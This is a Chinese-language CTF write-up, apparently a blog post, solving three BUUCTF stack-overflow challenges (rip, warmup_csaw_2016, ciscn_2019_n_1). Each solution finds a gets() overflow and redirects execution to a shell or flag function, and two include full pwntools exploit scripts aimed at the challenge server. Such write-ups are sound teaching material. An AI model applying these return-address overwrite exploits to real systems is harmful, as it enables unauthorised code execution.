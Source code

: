 ```yaml
---
layout: post
---
```

# rip
先查看一下开了哪些保护

![image](https://user-images.githubusercontent.com/98165037/188303228-82ab9753-9b76-4bd4-85d5-21e54f7f9e3c.png)

几乎没开什么保护

放进ida看看

![image](https://user-images.githubusercontent.com/98165037/188303300-b7aac343-6559-44c2-a808-26ac8cb60769.png)

看到gets函数，一个明显的溢出点

然后又发现了一个fun函数（后门函数？）可以直接get shell

![image](https://user-images.githubusercontent.com/98165037/188303382-39a84a3f-4873-4b52-b3a2-683fe27772f3.png)

所以就是通过gets函数溢出覆盖到rbp然后ret到fun函数地址去执行

这里看到fun函数地址是0x401186

![image](https://user-images.githubusercontent.com/98165037/188303687-0c2d3d55-c6ac-41c4-be4e-c723a63eb1b3.png)

或者直接ret到0x40118A执行system("/bin/sh")

双击s看到s距离rbp 15个字节，并且rbp有8字节，所以一共要覆盖（0xf+0x8）字节的长度

![image](https://user-images.githubusercontent.com/98165037/188303576-db6e46ea-c60f-41cb-a0b9-ca36655ed1a8.png)

所以exp如下

![image](https://user-images.githubusercontent.com/98165037/188303611-7c8e565a-d00c-4aa7-83e9-8324a495c9d7.png)
# warmup_csaw_2016
checksec一下

![image](https://user-images.githubusercontent.com/98165037/188305580-3b29e959-c502-4d52-b6f7-b4df1cd15c30.png)

耶没什么保护

ida打开

![image](https://user-images.githubusercontent.com/98165037/188305649-aa309e65-45d4-4688-86bf-fa906758d633.png)

显然又是gets

又非常幸运地找到了一个nice的函数，能够让我们看到flag

![image](https://user-images.githubusercontent.com/98165037/188305730-09de9ad7-fb23-4576-8b35-e2844efec57d.png)

查看它的地址

![image](https://user-images.githubusercontent.com/98165037/188305764-6ae6e05b-41e0-4a39-ac4a-334c5561314a.png)

直接ret到0x400611好了

再看看gets的参数v5的情况

![image](https://user-images.githubusercontent.com/98165037/188305820-c42f260e-3197-4410-830b-b91fc3187cf0.png)

到rbp的距离是0x40，rbp占8个字节，所以一个要覆盖（0x40+8）个字节

exp如下
```python
from pwn import *
io = remote('node4.buuoj.cn',29055)
payload = b'a'*(0x40+0x8)+p64(0x400611)
io.send(payload)
io.interactive()
```
但我需要手动ls才能看到

![image](https://user-images.githubusercontent.com/98165037/188305948-9a73121c-3ee2-4d72-94de-5000837f2849.png)
# ciscn_2019_n_1
checksec一下

![image](https://user-images.githubusercontent.com/98165037/188307032-fbd1e50f-e21c-4366-bab3-1aa9a5c6b4b8.png)

开了NX保护
> NX即No-eXecute（不可执行）的意思，Windows平台上称为DEP，NX（DEP）的基本原理是将数据所在内存页标识为不可执行，当程序溢出成功转入shellcode时，程序会尝试在数据页面上执行指令，此时CPU就会抛出异常，而不是去执行恶意指令。
>
ida里打开

![image](https://user-images.githubusercontent.com/98165037/188307228-4a87c14e-672b-4856-807c-b299e07dd29c.png)

gets函数get！又直接有system("cat /flag")，但是它的条件为假，可以利用gets函数溢出，跳过条件判断，直接跳到system的执行

![image](https://user-images.githubusercontent.com/98165037/188307340-786b4ad7-a2a7-45eb-849d-d4ac3900b5f7.png)

该语句地址为0x4006BE

再看gets函数的参数v1，离rbp有0x30字节，并且rbp占8字节，一共（0x30+8）字节

![image](https://user-images.githubusercontent.com/98165037/188307433-9e0d7c2d-336a-4ce9-9303-41ede84ec32c.png)

exp如下

```python
from pwn import *
io = remote('node4.buuoj.cn',27107)
payload = b'a'*(0x30+0x8)+p64(0x4006BE)
io.send(payload)
io.interactive()
```

